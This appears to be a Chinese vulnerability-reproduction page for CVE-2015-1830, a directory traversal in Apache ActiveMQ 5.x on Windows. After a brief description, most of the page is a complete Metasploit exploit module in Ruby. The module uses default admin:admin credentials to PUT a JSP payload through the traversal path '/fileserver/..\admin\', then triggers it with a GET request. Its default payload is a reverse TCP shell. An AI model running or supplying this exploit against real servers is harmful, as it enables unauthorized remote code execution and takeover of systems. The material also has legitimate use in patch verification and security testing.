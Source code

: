 <h1>（CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce</h1>
<h2>一、漏洞简介</h2>
<p>Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。</p>
<h2>二、漏洞影响</h2>
<p>ActiveMQ 5.11.1</p>
<h2>三、复现过程</h2>
<h3>msf poc</h3>
<blockquote>
<p>直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。</p>
</blockquote>
<pre><code class="language-ruby">##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule &lt; Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           =&gt; 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    =&gt; %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =&gt;
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =&gt;
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     =&gt; false,
      'Platform'    =&gt; %w{ win },
      'Targets'     =&gt;
        [
          [ 'Windows Java',
            {
              'Arch' =&gt; ARCH_JAVA,
              'Platform' =&gt; 'win'
            }
          ],
        ],
      'DisclosureDate' =&gt; '2015-08-19',
      'License'        =&gt; MSF_LICENSE,
      'DefaultOptions'  =&gt; {
        'RPORT' =&gt; 8161,
        'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  =&gt; 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
    })

    res1 = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'GET'
    })

    if res1 &amp;&amp; res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     =&gt; {
            'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    =&gt; 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    =&gt; 'GET'
    })
    if res &amp;&amp; res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
 end</code></pre>
